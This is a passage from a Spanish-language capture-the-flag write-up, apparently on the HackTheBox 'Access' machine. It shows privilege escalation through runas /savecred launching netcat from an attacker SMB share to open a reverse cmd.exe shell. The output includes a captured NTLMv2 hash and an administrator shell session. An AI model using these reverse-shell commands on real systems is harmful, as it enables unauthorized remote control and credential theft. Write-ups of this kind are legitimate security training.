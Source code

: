 Ejecutando runas (la implementación en windows de sudo y doas):
- `/savecred`: Usa las credenciales que ya tienes
- `/user:ACCESS\Administrator`: El usuario que debe ejecutarlo
- command: 
    - `/c`: Lanza el comando como oneshot
    - `\\10.10.13.32\a\nc.exe`: La ubicación remota y completa del ejecutable que se lanzará dentro de `cmd.exe`, en este caso `nc.exe`
        - `-vn`: Muestrame mas información y no me resuelvas nada
        - `10.10.13.32 3001`: Te vas a conectar por netcat a esta direccion y puerto
        - `-e cmd.exe`: Vas a ejecutar y concatenar este binario despues de conectarte

En el lado de mi máquina el smbserver a la escucha con parámetro `a` como el smbshare y la carpeta donde tengo netcat for win32.

``` text
root@laptop:/home/xbytemx/git/impacket/examples# python smbserver.py a /home/xbytemx/tools/netcat-win32-1.11/
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.98,49157)
[*] AUTHENTICATE_MESSAGE (ACCESS\Administrator,ACCESS)
[*] User Administrator\ACCESS authenticated successfully
[*] Administrator::ACCESS:4141414141414141:705304e1f134ba65060d2b39864d93c9:010100000000000000ba7acb86acd401eddc87b6510dd4f900000000010010006b004e00760050004b0062004f0053000200100079005200460049006600520055006b00030010006b004e00760050004b0062004f0053000400100079005200460049006600520055006b000700080000ba7acb86acd40106000400020000000800300030000000000000000000000000300000ce9db888d778a45092ce747ee5d6e3db0ded2df675ab47b104b65825609ca8f00a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310033002e0033003200000000000000000000000000
[*] AUTHENTICATE_MESSAGE (\,ACCESS)
[*] User \ACCESS authenticated successfully
[*] :::00::4141414141414141
[*] Disconnecting Share(1:IPC$)
[-] Unknown level for query path info! 0x109
[-] Unknown level for query path info! 0x4
[-] Unknown level for query path info! 0x109
[*] Disconnecting Share(2:A)
```

Así es, ya tenia la hash de NTLM de Administrator, unos minutos rompiendo y conseguiría la pass, pero fui terco en concatenar comandos.

El netcat en mi máquina esperando el remote shell de cmd.exe:

``` text
xbytemx@laptop:~/htb/access$ ncat -vnlp 3001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::3001
Ncat: Listening on 0.0.0.0:3001
Ncat: Connection from 10.10.10.98.
Ncat: Connection from 10.10.10.98:49158.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
access\administrator

C:\Windows\system32>cd c:\Users\Administrator\Desktop\
cd c:\Users\Administrator\Desktop\
```
